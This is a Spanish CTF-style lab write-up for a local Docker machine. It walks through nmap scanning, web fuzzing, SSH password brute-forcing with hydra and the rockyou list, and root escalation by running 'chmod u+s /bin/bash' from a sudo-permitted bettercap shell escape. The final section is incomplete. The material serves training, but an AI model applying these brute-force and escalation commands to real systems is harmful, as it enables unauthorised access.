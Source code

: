 
> Habilidades: Enumeración, steganografía, escalada de privilegios (linux)


# RECONOCIMIENTO

## Nmap Scan

Realizamos el primer sondeo a la ip de la victimma para averiguar que puertos están abiertos:

~~~ bash
nmap --open -p- -n -sS -Pn $ip -oG FirsScan
~~~

![Primer_Escaneo](https://i.imgur.com/NssolyM.png)

- `--open`: Nos muestre los puertos abiertos.
- `-p-`: Escanear todo el rango de puertos (65535)
- `-sS`: Escaneo TCP SYN, técnica más sigilosa para determinar el estado del puerto.
- `-n`: No aplicar resolución DNS.
- `-Pn`: Deshabilitar el descubrimiento de host, asumiendo que el objetivo se encuentra activo.
- `-oG`: Exportar el escaneo a un formato `Grepable`, util para extraer información.

_____________________________________________________________________________________________________________________________

### ENUMERAR SERVICIOS
Realizamos enumaeración a los puertos abiertos.
~~~ bash
nmap -sVC -p 22,80 172.17.0.2 -oN ServicesScan
~~~
- `-sC`: Ejecuta scripts NSE (Nmap Scripting Engine) predeterminados.
- `-sV`: Detecta la versión del servicio que se está ejecutando en cada puerto abierto.

![Escaneo_Sevicios](https://i.imgur.com/6ybGn1A.png)

_____________________________________________________________________________________________________________________________

## Http Service

Vemos el puerto `80` que corresponde a un servicio `http`, veamos que hay en él. Podemos usar la herramienta `whatweb` para listar las tecnologías detectadas en el servidor. (Como alternativa, puedes usar la extension de navegador Wappalyzer)

~~~ bash
whatweb http://172.17.0.2
~~~

![whatweb](https://i.imgur.com/iz3f6TK.png)

Abrimos en navegador y vamos a dicha web, leemos y podemos ver algo interesante, una nota de `Carlota`.
Yo siempre reviso view-source de la web por si se me escapa algo interesante. Siempre hay que enumerar todo lo que se pueda.
![despido](https://i.imgur.com/JTVpkU4.png)

_____________________________________________________________________________________________________________________________

## Fuzzing

El siguiente paso será intentar descubrir posibles directorios, podemos usar cualquier herramienta de fuzzing, yo usaré `wfuzz` y `gobuster`

### Wfuzz
~~~ bash
wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 http://172.17.0.2/FUZZ
~~~

![wfuzz](https://i.imgur.com/GEns8Jg.png)

- `-c`: Formato colorizado
- `--hc=404`: Ocultar el código de estado 404 (Not Found)
- `-w`: Especificar un diccionario de palabras
- `-t 200`: Dividir el proceso en 200 hilos, agilizando la tarea


### Gobuster

~~~ bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
~~~

![gobuster](https://i.imgur.com/qsO45ms.png)

- `dir`: Modo de descubrimiento de directorios y archivos
- `-u`: Dirección URL
- `-w`: Diccionario a usar
- `-t 200`: Establecer 200 subprocesos 

Podemos ver que en ambos casos no se ha descubierto ningun directorio. :(
_____________________________________________________________________________________________________________________________

## Fuerza Bruta

Como obtuvimos dos nombres anteriormente, vamos a intenta hacer fuerza bruta con uno de ellos.
~~~ bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt -t4 ssh://172.17.0.2
~~~

![hydra](https://i.imgur.com/gHUFhTq.png)


- `-l`: Especificar un nombre.
- `-P`: Especificar una lista de palabras.
- `-t4`: Especificar hilos a usar. (más rapido)
- `ssh`: Especifica el protocolo.

¡¡BINGO!! obtuvimos las credenciales de Carlota.

## Escalada de privilegios



# Escalada de privilegios


Una vez tenemos acceso, tratamos la TTY para poder usarla comodamente, para esto cambiaremos el valor de la variable `$TERM`

~~~ bash
> control Z
stty raw -echo; fg
reset xterm
export TERM=xterm
stty size
stty rows 44 columns 184


~~~

## Sudoers

Primeramente veremos si tenemos privilegios `sudo` con el siguiente comando

~~~ bash
sudo -l
~~~

![sudo -l]()

- `-l`: Enumerar los comandos permitidos (o prohibidos) invocables por el usuario en la máquina actual

![exec bettercap with sudo]()

Veamos el panel de ayuda con el comando `help`


## SUID Privilege Escalation

Esta opción (`!`) nos permite ejecutar un comando a nivel de sistema, así que podemos asignar el privilegio SUID a la `bash` para ejecutarla como `root`, para eso, lo haremos con el comando `chmod`, dentro de la consola interactiva de `bettercap` ejecutamos el siguiente comando

~~~ bash
! chmod u+s /bin/bash
~~~


- `-eval`: Ejecutar un comando en la máquina





